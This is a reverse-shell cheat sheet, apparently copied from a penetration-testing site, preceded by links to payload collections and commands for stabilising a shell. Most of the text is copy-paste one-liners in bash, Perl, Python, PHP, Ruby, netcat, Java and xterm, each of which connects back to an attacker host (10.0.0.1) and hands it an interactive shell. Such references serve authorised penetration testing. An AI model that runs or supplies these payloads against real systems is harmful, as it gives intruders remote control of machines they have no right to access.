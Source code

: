 http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/JohnHammond/poor-mans-pentest

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

stablize shell:
```
https://github.com/JohnHammond/poor-mans-pentest/blob/master/stabilize_shell.sh
command "python -c 'import pty; pty.spawn(\"/bin/bash\")'"
ctrl Z
command "stty raw -echo"
command "fg"
command "export TERM=xterm"
```
# Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
## Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell here.
## Python

This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]
## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```
xhost +targetip
```
## Further Reading

Also check out Bernardo’s Reverse Shell One-Liners.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a reverse shell written in gawk over here.  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

Tags: bash, cheatsheet, netcat, pentest, perl, php, python, reverseshell, ruby, xterm

Posted in Shells
